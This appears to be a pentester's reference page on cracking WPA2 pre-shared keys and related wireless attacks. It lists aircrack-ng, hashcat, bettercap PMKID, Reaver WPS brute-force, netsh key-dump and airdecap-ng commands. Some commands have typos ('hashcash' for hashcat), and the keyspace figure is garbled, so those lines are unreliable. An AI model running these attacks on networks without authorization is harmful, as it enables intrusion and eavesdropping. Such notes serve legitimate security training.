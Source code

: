 # Attacking WPA2 Pre-Shared Key Networks

### Dictionary-Based Attacks

**Cowpatty** - Audits WPA2-PSK for weak PSK

* Slow/time consuming

![](<../../../.gitbook/assets/image (36) (1).png>)

**aircrack-ng** (wpa/wpa2 psk dictionary attack)

```
aircrack-ng -w <wordlist> <pcap filename>
```

![](<../../../.gitbook/assets/image (59) (1).png>)

![](<../../../.gitbook/assets/image (64).png>)

**Hashcat**

*   Requires hccapx file

    * Generated with **cap2hccapx**

    ```
    hashcash -m 16800 -a3 -w3 handshakes.pmkid '?d?d?d?d?d?d?d'
    ```

    ###

#### Hashcat Mask Attack

* Brute force a custom range of PSK values
* Can mix and match static values with brute force character set values
* Default MiFi Password : 8 Hex characters
  * 232 or 168 = 4.2 billion entries / about 90 minutes at 90K PSK/second

![](<../../../.gitbook/assets/image (43) (1) (1).png>)

### PMKID Attack

![](<../../../.gitbook/assets/image (53).png>)

![](<../../../.gitbook/assets/image (42).png>)

```
sudo bettercap -iface wlan0

wlan0 >> wifi.recon on
wlan0 >> wifi.show

wlan0 >> wifi.assoc all

//convert pcap
hcxpcaptool -z handshakes.pmkid handshakes.pcap

//crack pmkid
hashcash -m 16800 -a3 -w3 handshakes.pmkid '?d?d?d?d?d?d?d'
```

### WPS PIN Attack

BruteForce

* WPS check the first 4 bytes, if the first part is wrong, the PIN is rejected.
* Doesn't require capturing pairing session or any interaction with AP
* Last byte is a checksum
  * 11,000 total WPS PINs

Active attack Tool **: Reaver**

```
reaver -i mon0 -b <BSSID MAC> -vv
```

Detecting WPS

* Wireshark filter: **wps.wifi**_**protected**_**setup\_state eq 0x02**

Passive Attack Tool**:** [**reaver-wps-fork-t6x**](https://github.com/t6x/reaver-wps-fork-t6x)****

* Observes DH exchange data
* &#x20;**https://github.com/t6x/reaver-wps-fork-t6x**&#x20;
* Outputs data to be used in **pixiewps (**[**https://github.com/wiire-a/pixiewps**](https://github.com/wiire-a/pixiewps)**)**

### Dump PNL pre-shared key

```
netsh wlan show profiles name='Profile Name' key=clear
```

### Decrypt WPA2 traffic dump

* Capture needs to include 4-way handshake
* You must also know the:
  * pre-shared key
  * SSID
  * this is because the PTK must be generated since it is different for each client

```
airdecap-ng -p <pre-shared key> -e <SSID> <packetdump>.dump
```

### KRACK attack (Key re-installation attack)

{% embed url="https://www.krackattacks.com" %}

* Captures and replaying step 3

### KR00K Attack

* r00kie-kr00kie.py - Automated Kr00k attack or examination of pcap files to see if we ever captured the necessary material for a Kr00k attack.

![](<../../../.gitbook/assets/image (49) (1).png>)

![](<../../../.gitbook/assets/image (74).png>)

![](<../../../.gitbook/assets/image (72).png>)

{% embed url="https://www.welivesecurity.com/wp-content/uploads/2020/02/ESET_Kr00k.pdf" %}
